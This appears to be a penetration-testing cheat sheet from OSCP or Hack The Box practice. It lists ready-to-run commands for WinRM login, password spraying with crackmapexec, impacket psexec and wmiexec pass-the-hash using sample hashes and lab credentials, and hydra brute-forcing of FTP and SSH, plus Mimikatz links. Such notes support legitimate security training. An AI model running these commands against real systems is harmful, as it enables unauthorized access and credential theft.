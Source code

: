 **WinRM**

- https://0xss0rz.gitbook.io/0xss0rz/pentest-htb/windows-1/winrm 

```basH
evil-winrm -i $IP_TARGET -u 'user' -p 'Password'
evil-winrm -i $IP_TARGET -u 'user' -H 'HASH'
```

**WinRM Password Spraying**

```bash
sudo crackmapexec winrm $SUBNET_TARGET/24 -u users.txt -p passwords.txt

--local-auth --continue-on-success 

-x whoami --local-auth

-d exam.oscp --continue-on-success

-d exam.oscp
```

**impacket-psexec**

```basH
impacket-psexec domain.com/user:"password"@$IP

impacket-psexec relia.com/Administrator:"vau\!XCKjNQBv2$"@172.16.165.21
```

**impacket-wmiexec PTH**

```bash
impacket-wmiexec  -hashes :hash domain.com/user@$IP_TARGET
impacket-wmiexec -hashes :$NTLM_HASH user@$IP_TARGET

# esempio
impacket-wmiexec -hashes :fd1f7e5564060258ea787ddbb6e6afa2 Administrator@172.16.8.3
```

**FTP Password Spraying**

```bash
hydra -V -f -l offsec -P /usr/share/wordlists/rockyou.txt ftp://$IP:21 -u -vV -T 40 -I
```

**SSH Password Spraying**

```bash
hydra -V -f -l offsec -P /usr/share/wordlists/rockyou.txt ssh://$IP:22 -u -vV -T 40 -I
```

## Mimikatz

- https://gist.github.com/insi2304/484a4e92941b437bad961fcacda82d49
- https://github.com/gentilkiwi/mimikatz/wiki
- https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/mimikatz-cheatsheet/#execute-commands
- https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz
